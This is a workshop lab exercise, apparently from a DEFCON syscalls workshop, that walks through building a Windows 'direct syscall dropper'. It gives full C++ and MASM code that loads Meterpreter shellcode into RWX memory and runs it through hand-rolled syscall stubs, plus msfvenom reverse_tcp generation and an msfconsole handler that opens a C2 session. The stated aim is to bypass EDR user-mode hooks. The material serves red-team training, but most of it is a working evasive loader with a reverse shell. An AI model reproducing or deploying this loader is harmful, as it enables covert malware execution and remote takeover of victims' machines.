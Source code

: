 ## LAB Exercise 4: Direct Syscall Dropper
Related to the Win32 dropper, in this exercise we will make the second modification, create the direct syscall dropper and implement the required syscalls or syscall stubs from each of the four native functions directly into the assembly (dropper). We will call this the direct syscall dropper.
![low_level_dropper_principal](https://user-images.githubusercontent.com/50073731/235438881-e4af349a-0109-4d8e-80e2-730915c927f6.png)

## Exercise 4 Tasks: 
1. Download the direct syscall dropper poc from the code section of this chapter.
2. Most of the code is already implemented in the poc. However, you have to complete the direct syscall dropper by performing the following tasks:
     - Create a new syscalls.h header file and use for syscalls.h the supplied code that follows in this playbook.
     - Import the syscalls.asm file as a resource and complete the assembly code by adding the missing assembler code for the remaining three native APIs following the scheme of the already implemented code for NtAllocateVirtualMemory.   
     - Enable Microsoft Macro Assembler (MASM) in the direct syscall poc in Visual Studio.
3. Create a staged x64 meterpreter shellcode with msfvenom, copy it to the poc and compile the poc. 
4. Create and run a staged x64 meterpreter listener using msfconsole.
5. Run your compiled .exe and check that a stable command and control channel opens. 
6. Use the Visual Studio **dumpbin** tool to analyse the syscall dropper. Are any Win32 APIs being imported from kernel32.dll? Is the result what you expected?  
7. Use **x64dbg** to debug or analyse the dropper. 
     - Check which Win32 APIs and native APIs are being imported. If they are being imported, from which module or memory location are they being imported? Is the result what you expected?
     - Check from which module or memory location the syscalls for the four APIs used are being executed. Is the result what you expected?


## Visual Studio
You can download the poc from the code section of this chapter. The code works as follows, shellcode declaration is the same as before in both droppers.
<details>
    
```
// Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83";
```
    
</details>


The main code of the direct syscall dropper looks like the following and is already implemented in the poc. Again, we use the same native APIs to allocate memory, write memory, create a new thread and wait for exit.
<details>
<summary>Code</summary>
    
```
#include <iostream>
#include <Windows.h>
#include "syscalls.h"

int main() {
    // Insert Meterpreter shellcode
    unsigned char code[] = "\xfc\x48\x83...";

    // Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = NULL;
    SIZE_T size = sizeof(code);
    NtAllocateVirtualMemory(GetCurrentProcess(), &exec, 0, &size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    // Copy the shellcode into the allocated memory region
    SIZE_T bytesWritten;
    NtWriteVirtualMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);

    // Execute the shellcode in memory using a new thread
    // Pass the address of the shellcode as the thread function (StartRoutine) and its parameter (Argument)
    HANDLE hThread;
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), exec, exec, FALSE, 0, 0, 0, NULL);

    // Wait for the end of the thread to ensure the shellcode execution is complete
    NtWaitForSingleObject(hThread, FALSE, NULL);


    // Return 0 as the main function exit code
    return 0;
}
```
    
</details>

    
### Header File
Unlike the native dropper, we **no longer ask ntdll.dll** for the function definition of the native APIs we use. But we still want to use the native functions, so we need to define or **directly implement** the structure for all four native functions in a header file. In this case, the header file should be called **syscalls.h**. The syscalls.h file does not currently exist in the syscall poc folder, your task is to add a new header file named syscalls.h and implement the required code. The code for the syscalls.h file can be found in the code section below. You will also need to include the header ``syscalls.h`` in the main code. 
     
Additional information if you want to check the function definition manually should be available in the Microsoft documentation, e.g. for [NtWriteVirtualMemory](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntallocatevirtualmemory).

<details>
<summary>Code</summary>

```
#ifndef _SYSCALLS_H  // If _SYSCALLS_H is not defined then define it and the contents below. This is to prevent double inclusion.
#define _SYSCALLS_H  // Define _SYSCALLS_H

#include <windows.h>  // Include the Windows API header

#ifdef __cplusplus   // If this header file is included in a C++ file, then this section will be true
extern "C" {         // This is to ensure that the names of the functions are not mangled by the C++ compiler and are in C linkage format
#endif

    // The type NTSTATUS is typically defined in the Windows headers as a long.
    typedef long NTSTATUS;  // Define NTSTATUS as a long
    typedef NTSTATUS* PNTSTATUS;  // Define a pointer to NTSTATUS

    // Declare the function prototype for NtAllocateVirtualMemory
    extern NTSTATUS NtAllocateVirtualMemory(
        HANDLE ProcessHandle,    // Handle to the process in which to allocate the memory
        PVOID* BaseAddress,      // Pointer to the base address
        ULONG_PTR ZeroBits,      // Number of high-order address bits that must be zero in the base address of the section view
        PSIZE_T RegionSize,      // Pointer to the size of the region
        ULONG AllocationType,    // Type of allocation
        ULONG Protect            // Memory protection for the region of pages
    );

    // Declare the function prototype for NtWriteVirtualMemory
    extern NTSTATUS NtWriteVirtualMemory(
        HANDLE ProcessHandle,     // Handle to the process in which to write the memory
        PVOID BaseAddress,        // Pointer to the base address
        PVOID Buffer,             // Buffer containing data to be written
        SIZE_T NumberOfBytesToWrite, // Number of bytes to be written
        PULONG NumberOfBytesWritten // Pointer to the variable that receives the number of bytes written
    );

    // Declare the function prototype for NtCreateThreadEx
    extern NTSTATUS NtCreateThreadEx(
        PHANDLE ThreadHandle,        // Pointer to a variable that receives a handle to the new thread
        ACCESS_MASK DesiredAccess,   // Desired access to the thread
        PVOID ObjectAttributes,      // Pointer to an OBJECT_ATTRIBUTES structure that specifies the object's attributes
        HANDLE ProcessHandle,        // Handle to the process in which the thread is to be created
        PVOID lpStartAddress,        // Pointer to the application-defined function of type LPTHREAD_START_ROUTINE to be executed by the thread
        PVOID lpParameter,           // Pointer to a variable to be passed to the thread
        ULONG Flags,                 // Flags that control the creation of the thread
        SIZE_T StackZeroBits,        // A pointer to a variable that specifies the number of high-order address bits that must be zero in the stack pointer
        SIZE_T SizeOfStackCommit,    // The size of the stack that must be committed at thread creation
        SIZE_T SizeOfStackReserve,   // The size of the stack that must be reserved at thread creation
        PVOID lpBytesBuffer          // Pointer to a variable that receives any output data from the system
    );

    // Declare the function prototype for NtWaitForSingleObject
    extern NTSTATUS NtWaitForSingleObject(
        HANDLE Handle,          // Handle to the object to be waited on
        BOOLEAN Alertable,      // If set to TRUE, the function returns when the system queues an I/O completion routine or APC for the thread
        PLARGE_INTEGER Timeout  // Pointer to a LARGE_INTEGER that specifies the absolute```c
        // or relative time at which the function should return, regardless of the state of the object
    );

#ifdef __cplusplus  // End of the 'extern "C"' block if __cplusplus was defined
}
#endif

#endif // _SYSCALLS_H  // End of the _SYSCALLS_H definition
  
```
    
</details>
    
<details>
<summary>Solution</summary>   
    <p align="center">
<img width="500" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/5fbb39c6-be30-4641-8652-6b98e478e17f"> 
    </p>
    <p align="center">   
    <img width="800" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/d116e34d-8bea-4d4b-a437-a27594218a5b">
    </p>
    <p align="center">
    <img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/4b3e7f58-b6c1-492a-9516-46dcf3af942c">
    </p>
</details>     
    

### Assembly Instructions
Furthermore, we do not want to ask ntdll.dll for the syscall stub or the contents of the syscall stub (assembly instructions ``mov r10, rcx``, ``mov eax, SSN`` etc.) of the native functions we use, instead we want to manually implement the necessary assembly code in the assembly itself. As mentioned above, instead of using a tool like SysWhispers3 to create the necessary assembly instructions, for the best learning experience, we will manually implement the assembly code in our syscall poc. To do this, you will find a file called ``syscalls.asm`` in the direct syscall dropper poc directory, which contains some of the required assembler code. The code needed to implement the syscall stub in syscalls.asm looks like this. It is your task to add the ``syscalls.asm`` file as a resource to the direct syscall dropper project and complete the assembler code or add the syscall stub for the other three missing native APIs ``NtWriteVirtualMemory``, ``NtCreateThreadEx`` and ``NtWaitForSingleObject``. It is one of your tasks to complete the missing assembler code.

<details>
<summary>Code</summary>

```
.CODE  ; Start the code section
; Procedure for the NtAllocateVirtualMemory syscall
NtAllocateVirtualMemory PROC
    mov r10, rcx                                    ; Move the contents of rcx to r10. This is necessary because the syscall instruction in 64-bit Windows expects the parameters to be in the r10 and rdx registers.
    mov eax, 18h                                    ; Move the syscall number into the eax register.
    syscall                                         ; Execute syscall.
    ret                                             ; Return from the procedure.
NtAllocateVirtualMemory ENDP     
END  ; End of the module    
```
    
</details>

If you are unable to complete the assembly code at this time, you can use the assembly code from the solution and paste it into the ``syscalls.asm`` file in the **direct syscall dropper poc**. **Note** that the syscalls IDs are for Windows 10 Enterprise 22H2 and may not work for your target. You may need to replace the syscalls IDs with the correct syscalls IDs for your target Windows version.
    
<details>
    <summary>Solution</summary>

```
.CODE  ; Start the code section
; Procedure for the NtAllocateVirtualMemory syscall
NtAllocateVirtualMemory PROC
    mov r10, rcx                                    ; Move the contents of rcx to r10. This is necessary because the syscall instruction in 64-bit Windows expects the parameters to be in the r10 and rdx registers.
    mov eax, 18h                                    ; Move the syscall number into the eax register.
    syscall                                         ; Execute syscall.
    ret                                             ; Return from the procedure.
NtAllocateVirtualMemory ENDP                     	; End of the procedure.

; Similar procedures for NtWriteVirtualMemory syscalls
NtWriteVirtualMemory PROC
    mov r10, rcx
    mov eax, 3AH
    syscall
    ret
NtWriteVirtualMemory ENDP

; Similar procedures for NtCreateThreadEx syscalls
NtCreateThreadEx PROC
    mov r10, rcx
    mov eax, 0C2h
    syscall
    ret
NtCreateThreadEx ENDP

; Similar procedures for NtWaitForSingleObject syscalls
NtWaitForSingleObject PROC
    mov r10, rcx
    mov eax, 4
    syscall
    ret
NtWaitForSingleObject ENDP

END  ; End of the module
```
    
</details>

    
    
### Microsoft Macro Assembler (MASM)
We have already implemented all the necessary assembler code in the syscalls.asm file. But in order for the code to be interpreted correctly within the syscall poc, we need to do a few things. These steps are not done in the downloadable poc and must be done manually. First, we need to enable the Microsoft Macro Assembler (.masm) option in Build Dependencies/Build Customisations.
<details>
<summary>Solution</summary> 
<p align="center">
<img width="1278" alt="image" src="https://user-images.githubusercontent.com/50073731/235457590-371f3519-b7cf-483d-9c1c-6bfd6368be42.png">
<img width="590" alt="image" src="https://user-images.githubusercontent.com/50073731/235457782-780d2136-30d7-4e87-a022-687ed2557b33.png">
</details>

Furthermore we need to set the Item Type of the syscalls.asm file to Microsoft Macro Assembler, otherwise we will get an unresolved symbol error in the context of the native APIs used in the direct syscall dropper. Furthermore we set Excluded from Build to no and Content to yes. 
<details>
<summary>Solution</summary> 
    <p align="center">
<img width="950" alt="image" src="https://user-images.githubusercontent.com/50073731/235471947-4bcd23fc-5093-4f4d-adc8-eb3ef36f139f.png">    
<img width="1237" alt="image" src="https://user-images.githubusercontent.com/50073731/235458968-e330799e-51ff-46bf-97ab-c7d3be7ea079.png">
<img width="778" alt="image" src="https://user-images.githubusercontent.com/50073731/235459219-4387dc48-56f8-481c-b978-1b786843a836.png">
    </p>
</details>     

    

## Meterpreter Shellcode
Again, we will create our meterpreter shellcode with msfvenom in Kali Linux. To do this, we will use the following command and create x64 staged meterpreter shellcode.
<details>
    
 **kali>**   
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IPv4_Redirector_or_IPv4_Kali LPORT=80 -f c > /tmp/shellcode.txt
```
<p align="center">
<img width="800" alt="image" src="https://user-images.githubusercontent.com/50073731/235358025-7267f8c6-918e-44e9-b767-90dbd9afd8da.png">
</p>

The shellcode can then be copied into the direct syscall dropper poc by replacing the placeholder at the unsigned char, and the poc can be compiled as an x64 release.<p align="center">
<img width="600" alt="image" src="https://user-images.githubusercontent.com/50073731/235414557-d236582b-5bab-4754-bd12-5f7817660c3a.png">
</p>
</details>    


## MSF-Listener
Before we test the functionality of our direct syscall dropper, we need to create a listener within msfconsole.
<details>
    
**kali>**
```
msfconsole
```
**msf>**
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost IPv4_Redirector_or_IPv4_Kali
set lport 80 
set exitonsession false
run
```
<p align="center">
<img width="600" alt="image" src="https://user-images.githubusercontent.com/50073731/235358630-09f70617-5f6e-4f17-b366-131f8efe19d7.png">
</p>
</details>
 
    
Once the listener has been successfully started, you can run your compiled direct syscall dropper. If all goes well, you should see an incoming command and control session. 
<details>
    
<p align="center">
<img width="800" alt="image" src="https://user-images.githubusercontent.com/50073731/235369228-84576762-b3b0-4cf7-a265-538995d42c40.png">
</p>
</details>
        

    
## Direct Syscall Dropper Analysis: Dumpbin 
The Visual Studio tool dumpbin can be used to check which Windows APIs are imported via kernel32.dll. The following command can be used to check the imports. Which results do you expect?
<details>    
    
**cmd>**
```
cd C:\Program Files (x86)\Microsoft Visual Studio\2019\Community
dumpbin /imports low_level.exe
```
</details>    

<details>
    <summary>Solution</summary>  
    
**No imports** from the Windows APIs VirtualAlloc, WriteProcessMemory, CreateThread, and WaitForSingleObject from kernel32.dll. This was expected and is correct.
<p align="center">
<img width="1023" alt="image" src="https://user-images.githubusercontent.com/50073731/235473764-c85ccc73-a1cb-403d-8162-172146375d96.png">
</p>
</details>   
    
    
## Direct Syscall Dropper Analysis: x64dbg 
The first step is to run your direct syscall dropper, check that the .exe is running and that a stable meterpreter C2 channel is open. 
Then we open x64dbg and attach to the running process, note that if you open the direct syscall dropper directly in x64dbg, you need to run the assembly first.
<details>
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/a8509e63-ddea-4dee-894f-b2266bb3e504">
</p>
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/492c09bc-e9db-428b-90f4-311b1a8a5d4b">
</p>            
</details>
     
    
First we want to check which APIs (Win32 or Native) are being imported and from which module or memory location. Remember that in the direct syscall dropper we no longer use Win32 APIs in the code and have implemented the structure for the native functions directly in the assembly. What results do you expect?
<details>
    <summary>Solution</summary>
     Checking the imported symbols in our direct syscall dropper, we should again see that the Win32 APIs VirtualAlloc, WriteProcessMemory, CreateThread and WaitForSingleObject are no longer imported by kernel32.dll, or are no longer imported in general. So the result is the same as with dumpbin and seems to be valid.     
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/2fd0e78c-db42-4338-b943-5a198e62c7a1">
</p>       
</details>
<details>
    <summary>Solution</summary>
     We can also see that instead of asking ntdll.dll for the four native functions used, they are implemented directly in the assembly in the .text region. 
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/e2b2b167-7d52-41ec-8d93-c6f0da4ae958">
</p>       
</details>
We also want to check from which module or memory location the syscall stub of the native functions used is implemented, and also check from which module or memory location the syscall statement and return statement are executed.
<details>
    <summary>Solution</summary>
     In the context of the native function ``NtAllocateVirutalMemory``, we follow in the disassembler and should be able to see that the syscall stub is not retrieved from ntdll.dll, instead the stub is implemented directly into the .text section of the assembly. We can also see that the syscall statement and the return statement are executed from the memory location of the direct syscall dropper assembly.    
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/f78a51a0-fdc8-4c19-8d4b-924024c9dc5b">
</p>       
<p align="center">
<img width="800" alt="image" src="https://github.com/VirtualAlllocEx/DEFCON-31-Syscalls-Workshop/assets/50073731/462e794c-1a4f-4bd8-9375-8d503941caa3">
</p>       
</details>


## Summary:
- Made transition from Native APIs to direct syscalls
- Dropper imports no longer Windows APIs from kernel32.dll
- Dropper imports no longer Native APIs from ntdll.dll
- Syscalls or syscall stubs are "implemented" directly into .text section of .exe
- User mode hooks in ntdll.dll and EDR can be bypassed 
